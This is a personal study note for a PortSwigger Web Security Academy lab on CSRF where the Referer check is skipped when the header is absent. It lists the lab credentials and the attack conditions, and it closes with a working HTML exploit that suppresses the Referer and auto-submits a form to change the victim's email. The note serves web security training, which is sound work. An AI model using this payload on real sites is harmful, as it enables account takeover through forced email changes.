 ```yaml
---
tags:
  - PRACTITIONER
Link:
  - "[[CSRF]]"
External Link:
  - https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-depends-on-header-being-present
---
```


# CSRF where Referer validation depends on header being present
---

- **Info:**
	- Vulnerable parameter - email change functionality
	- Goal - exploit the CSRF vulnerability to change the email address of the victim user
	- creds - `wiener:peter`

-  **Analysis:**
	- In order for CSRF attack to be possible:
		- A relevant action - ***email change functionality***
		- Cookie-based session handling - ***session cookie***
		- No unpredictable request parameters - satisfied

- **Bypass referer header:**
	1. Remove referer header - satisfied

- Craft Exploit that removes the referrer header of a request
```html
<html>
	<head>
		<meta name="referrer" content="no-referrer">
	</head>
	<body>
		<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
			<input type="hidden" name="email" value="pwned@normal-user.net">
		</form>
	<script>
		document.forms[0].submit();
	</script>
	</body>
</html>
	```




